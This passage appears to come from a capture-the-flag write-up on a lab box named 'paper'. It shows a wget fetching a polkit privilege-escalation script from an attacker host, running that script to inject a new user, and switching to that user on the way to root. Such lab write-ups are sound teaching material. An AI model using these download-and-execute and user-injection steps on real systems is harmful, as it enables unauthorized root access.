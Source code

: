 ```

[dwight@paper shm]$ wget 10.10.14.6/cve-2021-3650.sh
--2022-06-05 15:25:11--  http://10.10.14.6/cve-2021-3650.sh
Connecting to 10.10.14.6:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 9627 (9.4K) [text/x-sh]
Saving to: ‘cve-2021-3650.sh’

cve-2021-3650.sh                                     100%[=================================>]    9.40K  --.-KB/s    in 0.005s  

2022-06-05 15:25:11 (1.91 MB/s) - ‘cve-2021-3650.sh’ saved [9627/9627]

```

Now I just run it:

```

[dwight@paper shm]$ bash cve-2021-3650.sh

[!] Username set as : secnigma
[!] No Custom Timing specified.
[!] Timing will be detected Automatically
[!] Force flag not set.
[!] Vulnerability checking is ENABLED!
[!] Starting Vulnerability Checks...
[!] Checking distribution...
[!] Detected Linux distribution as "centos"
[!] Checking if Accountsservice and Gnome-Control-Center is installed
[+] Accounts service and Gnome-Control-Center Installation Found!!
[!] Checking if polkit version is vulnerable
[+] Polkit version appears to be vulnerable!!
[!] Starting exploit...
[!] Inserting Username secnigma...
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
[+] Inserted Username secnigma  with UID 1005!
[!] Inserting password hash...
[!] It looks like the password insertion was successful!
[!] Try to login as the injected user using su - secnigma
[!] When prompted for password, enter your password 
[!] If the username is inserted, but the login fails; try running the exploit again.
[!] If the login was successful,simply enter 'sudo bash' and drop into a root shell!

```

It might not work every time, but running it repeatedly will eventually work. I’ll change user to the secnigma user with the password secnigmaftw (from the `README.md` on GitHub):

```

[dwight@paper shm]$ su - secnigma
Password: 
[secnigma@paper ~]$

```
